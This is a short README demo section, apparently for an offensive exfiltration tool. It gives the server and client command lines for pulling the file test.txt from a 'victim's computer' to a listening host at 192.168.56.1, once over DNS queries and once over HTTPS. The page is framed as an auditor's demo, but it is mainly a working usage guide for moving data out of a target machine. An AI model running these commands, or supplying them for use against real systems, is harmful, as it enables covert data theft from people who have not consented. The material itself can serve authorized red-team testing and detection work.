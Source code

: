 # :tv: Demo

## Demo with DNS exfiltration

**Server command line** example with DNS from Linux:
```bash
sudo ./srde_release dns -k P4ssW0rD12345 -i 192.168.56.1 -P 53
```

**Client command line** example with DNS from Windows:
```bash
crde_x64.exe dns -f test.txt -k P4ssW0rD12345 -d google.com -n 192.168.56.1
```

In this example the auditor extracts the file **test.txt** from the victim's computer via DNS query to the server **192.168.56.1**.

<p align="center">
<img width="100%" src="img/dns.jpg">
</p>

## Demo with HTTPS exfiltration

**Server command line** example with HTTPS from Linux:
```bash
sudo ./srde_release https -i 0.0.0.0 -P 443 -k PassWord --private-cert server/key.pem --public-cert server/cert.pem
```

**Client command line** example with HTTPS from Windows:
```bash
crde_x64.exe https -f test.txt -u https://192.168.56.1/ -k PassWord
```
